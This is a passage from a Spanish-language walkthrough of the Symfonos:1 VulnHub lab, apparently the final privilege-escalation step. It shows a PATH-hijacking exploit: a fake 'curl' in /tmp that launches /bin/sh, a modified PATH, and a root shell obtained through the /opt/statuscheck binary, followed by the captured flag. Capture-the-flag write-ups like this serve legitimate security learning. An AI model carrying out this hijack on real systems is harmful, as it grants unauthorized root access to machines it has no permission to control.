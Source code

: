 Lo ejecuto para ver que hace y vemos una sintaxis muy similar a la de **curl**, si no la misma...
```bash
helios@symfonos:/opt$ ./statuscheck 
HTTP/1.1 200 OK
Date: Sun, 24 Dec 2023 10:22:28 GMT
Server: Apache/2.4.25 (Debian)
Last-Modified: Sat, 29 Jun 2019 00:38:05 GMT
ETag: "148-58c6b9bb3bc5b"
Accept-Ranges: bytes
Content-Length: 328
Vary: Accept-Encoding
Content-Type: text/html
```

Le hago un `strings` para ver un poco lo que hace por detrás y vemos algo que llama la atención, está utilizando **curl**, pero de forma relativa, la manera correcta de hacerlo sería de forma absoluta, es decir, llamando a la ruta absoluta del binario, por ejemplo `/usr/bin/curl`.
[<img src="/assets/images/vulnhub/Symfonos1/captura3.png">](/assets/images/vulnhub/Symfonos1/captura3.png)
Haciéndolo de esta forma podemos explotar un [Path Hijacking](https://deephacking.tech/path-hijacking-y-library-hijacking/) tal y como explica este artículo.

Voy a crear un archivo en el directorio **/tmp** que se va a llamar **curl**, y dentro voy a decirle que me otorgue una **shell** como **root**, posteriormente alteraremos el **PATH** para que acceda primero al directorio **/tmp** de esta manera en lugar de ejecutar el **curl** "legítimo" en realidad el **statuscheck** leerá nuestro **curl** y al ejecutarlo como **root** nos otorgará una **/bin/sh** como root.

```bash
/tmp
echo '/bin/sh' > curl
chmod +x curl
export PATH=/tmp:$PATH
/opt/statuscheck
```
Ya somos root y podemos leer el flag.

```bash
# cat /root/proof.txt

	Congrats on rooting symfonos:1!

                 \ __
--==/////////////[})))==*
                 / \ '          ,|
                    `\`\      //|                             ,|
                      \ `\  //,/'                           -~ |
   )             _-~~~\  |/ / |'|                       _-~  / ,
  ((            /' )   | \ / /'/                    _-~   _/_-~|
 (((            ;  /`  ' )/ /''                 _ -~     _-~ ,/'
 ) ))           `~~\   `\\/'/|'           __--~~__--\ _-~  _/, 
```